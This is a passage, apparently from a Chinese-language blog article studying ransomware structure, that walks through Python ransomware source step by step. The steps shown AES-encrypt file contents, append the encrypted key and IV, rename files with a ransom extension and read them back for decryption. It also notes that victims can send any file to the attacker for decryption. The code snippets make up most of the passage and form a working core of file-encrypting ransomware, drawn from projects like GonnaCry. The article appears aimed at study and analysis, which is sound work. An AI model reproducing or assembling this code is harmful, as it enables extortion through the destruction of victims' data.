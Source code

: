     input_file.write(ciphered_bytes)
    ```
7. 将加密用的随机密钥添加到文件末尾
    ```python
    input_file.seek(0, os.SEEK_END)
    input_file.write(encriptedKey.encode())
    ```
8. 在文件末尾附加[AES IV（初始化向量）](https://en.wikipedia.org/wiki/Initialization_vector)
    ```python
    input_file.seek(0, os.SEEK_END)
    input_file.write(cipher_encrypt.iv)
    ```
9. 重命名文件
    ```python
    input_file.close()
    os.rename(file, file + "." + cryptoName)
    ```

![Rough mock up of the file structure](https://cdn.jsdelivr.net/gh/Mundi-Xu/picture_resource@master/picture/勒索软件结构与加密模式研究/Encryption_process.png)

需要注意的是我们并不需要复制完整的文件，我们只是在文件上使用了`seek()`来定位字节并使过程尽可能快。这也将在解密功能中使用。

还要注意，由于我们在加密文件中同时写入了AES IV和加密密钥，因此我们不需要任何带有每个加密文件索引的txt文件。受害者可以向我们发送任何文件，只要我们拥有用于特定二进制文件的私钥，我们就可以对其解密。

### SymDecryptFile

这是主要的解密函数。工作流程如下：

1. 使用privateKey和文件路径作为参数调用该函数 
    ```python
    def symDecryptFile(privateKey, file):
    ```
2. 定义文件的解密大小（n个字节）（等于加密中使用的大小）
    ```python
    buffer_size = 1048576
    ```
3. 验证文件是否已加密（带有扩展名）
    ```python
    if file.endswith("." + cryptoName):
        out_filename = file[:-(len(cryptoName) + 1)]
        print("Decrypting file: " + file)
    else:
        print('File is not encrypted')
        return
    ```
4. 打开文件并读取AES IV（最后16个字节）
    ```python
    input_file = open(file, 'r+b')
    # Read in the iv
    input_file.seek(-16, os.SEEK_END)
    iv = input_file.read(16)
    ```
5. 读取加密的解密密钥
    ```python
    # we move the pointer to 274 bytes before the end of file
    # (258 bytes of the encryption key + 16 of the AES IV)
    input_file.seek(-274, os.SEEK_END)

[^1]: https://www.computerworld.com/article/2489311/cryptodefense-ransomware-leaves-decryption-key-accessible.html
[^2]: https://blog.checkpoint.com/2014/08/27/hacking-the-hacker/
[^3]: https://blog.malwarebytes.com/threat-analysis/2018/04/lockcrypt-ransomware/
[^4]: https://stackoverflow.com/questions/13378815/base64-length-calculation
[^5]: https://en.wikipedia.org/wiki/Petya_(malware)
[^6]: https://www.howtogeek.com/193669/whats-the-difference-between-gpt-and-mbr-when-partitioning-a-drive/
[^7]: [GonnaCry勒索软件](https://github.com/tarcisio-marinho/GonnaCry)
[^8]: [Architecture of a ransomware](https://medium.com/bugbountywriteup/architecture-of-a-ransomware-1-2-1b9fee757fcb)